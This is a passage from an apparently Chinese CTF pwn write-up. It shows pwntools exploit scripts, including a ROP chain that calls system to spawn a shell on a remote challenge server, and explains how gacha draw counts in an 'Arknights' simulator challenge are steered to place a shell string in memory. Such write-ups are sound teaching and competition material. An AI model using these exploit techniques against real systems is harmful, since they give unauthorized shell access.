 ```Python

payload = b'/bin/sh\x00'.ljust(0x24, b'a') + p32(0x400ab0) + b'a' * 0x4 * 7 + p32(0x0) + p32(0x1) + p32(0x1) + p32(bincat) + p32(0x0) * 2 + p32(0x400aa4)
payload = flat([
    b'a' * 0x24,
    p32(0x400a1c),
    p32(0),
    p32(system),
    p32(bincat)
])
p.sendlineafter(b'> ', payload)

p.interactive()
```

# 明日方舟寻访模拟器

没找到`getshell`的方法，有个大胆的想法，控制抽出来的卡，让其在内存里刚好显示为`/bin/sh`，这样就可以得到地址存`/bin/sh`了。

思路没错，后来问了组里做出来的师傅，就是这么做的，只是不需要让其为/bin/sh，让其为 $0, /sh 一样可以获取shell，而且控制难度要小很多。

官方wp还是更简单，有一个位置直接存的是抽卡总次数，也不用控制三星了，直接抽这个次数的卡就行了。

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
elf_path = "./arknights"
local = False
debug = False
debugscripts = '''
    b main
'''
if local:
    p = process(elf_path)
    if debug:
        gdb.attach(p, debugscripts)
else:
    ip, port = "gz.imxbt.cn:20831".split(":")
    p = remote(ip, port)

rdi = 0x4018e5
ret = 0x40101a
system = 0x4018FC
count = 0x405BCC

payload = b'a'*0x48+p64(rdi)+p64(count)+p64(system)

def ck(n):
    p.recv()
    p.sendline(b'3')
    p.recv()
    p.sendline(str(n).encode())
    p.sendline(b'\n')

p.sendline(b'a')
ck(10000)
ck(2324)

p.recv()
p.sendline(b'4')
p.recv()
p.sendline(b'1')
p.sendline(payload)
```